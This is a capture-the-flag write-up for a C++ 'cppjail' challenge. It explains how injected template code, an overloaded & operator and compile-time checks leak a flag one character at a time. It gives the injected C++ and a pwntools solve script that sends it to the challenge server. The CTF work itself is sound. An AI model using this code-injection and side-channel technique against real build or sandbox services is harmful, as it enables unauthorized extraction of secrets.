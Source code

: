 # Writeup for cppjail by pawnlord


This challenge can be broken into 3 parts: getting code executing, getting a character-checker, and code-golfing to actually run the solution.

## getting code to execute
The intended way to get code to execute is to overload the & operator for `Prisoner`. You can't return pointers directly, so you need to get the type through `decltype`. You also need to make sure that different values are returned when the & operator is run on the 2 prisoners, which is done through a global variable as to not need to pass in the prisoner itself (and to have an identifier for decltype). The code to do it is below (without the space constrait being followed cause it's ugly):
```cpp
unsigned j = 0;
decltype(&j) operator&(const Prisoner&) {
    return (decltype(&j))(/* getting character value here */ +(j++)); 
}
```

## checking a character
Checking a character requires a `Lock`. The `Lock` type is only available through a `false_type` Jail, which requires it to fail to substitute the type you give it. You can't define a class or struct, which means the only (and shortest) way to access a false_type is through `Jail<void>`. Once  you have a `Jail<void>`, you have access to `Lock` through `lock`. You can test whether a character is correct for a position through `sizeof(Jail<void>::lock<c,0>::k.i2) == 4`.  
Due to the sleep at the beginning of the compile script, every time the solve script runs it needs to get one character. The max any run can get is 16 if it is able to fill the entire pointer that is printed with characters of the flag for both prisoner1 and prisoner2, though the solve script is still under 7 minutes without this.

### checking for 1 character per build
The basic idea of the solve script is to make a template get recursively invoked until we reach the character for a specific index. The un-obfuscated version for the first character would be:
```cpp
char r(std::bool_constant<true>) {
    return c-1;
}
template<char c>
char r(std::bool_constant<false>){
    return r<c+1>(std::bool_constant<sizeof(Jail<void>::lock<c, 0>::k.i2) == 4>());
}
```
Essentially, for every c, it checks the `sizeof(Jail<void>::lock<c, 0>::k.i2) == 4` from the previous section to check if the character is correct. If it isn't, it calls the overload with the `std::bool_constant<false>` parameter type with the next character, which will then check again. If it is, it will call the overload with the `std::bool_constant<true>` parameter type, which then stops teh template recursion and returns the character that was checked.

## code-golfing
The main part of the code-golf is minimizing repeated types. Repeated types can be eliminated with the `using` keyword. Everything else is the standard removing uneeded whitespace and long identifiers.


## ungolfed and obfuscated injected code
```cpp
static unsigned j=0;
template<decltype(j) c>
decltype(j) r(std::bool_constant<true>) {
    return (decltype(j))(c-1);
}
template<decltype(j) c>
decltype(j) r(std::bool_constant<false>){
    return r<c+1>(std::bool_constant<sizeof(Jail<void>::lock<c, 0>::k.i) == 4>());
}
decltype(&j) operator&(const Prisoner& p) {
    return (decltype(&j))(r<0>(std::bool_constant<false>())+(j++)); 
}
```
## injected code
```cpp
unsigned	j=0;template<bool	b>using	d=std::bool_constant<b>;using	a=decltype(j);	using	t=d<true>;	using	f=d<false>;template<a	c>a	r(t){return(a)(c-1);}template<a	c>a	r(f){return	r<c+1>(d<sizeof(Jail<void>::lock<c,0>::k.i)	==	4>());}a	operator&(Prisoner){return(r<0>(f())+(j++));}
```
## solve script
```py
from pwn import *

format = "unsigned	j=0;template<bool	b>using	d=std::bool_constant<b>;using	a=decltype(j);	using	t=d<true>;	using	f=d<false>;template<a	c>a	r(t){return(a)(c-1);}template<a	c>a	r(f){return	r<c+1>(d<sizeof(Jail<void>::lock<c,%d>::k.i)	==	4>());}a	operator&(Prisoner){return(r<0>(f())+(j++));}"

for i in range(0, 53):
    r = remote("ctf.b01lers.com", 7170)
    code = format % i
    r.sendline(code.encode())
    character = chr(int(r.recvall().split(b" ")[-1], 16) - 3)
    print(character)
    r.close()
```

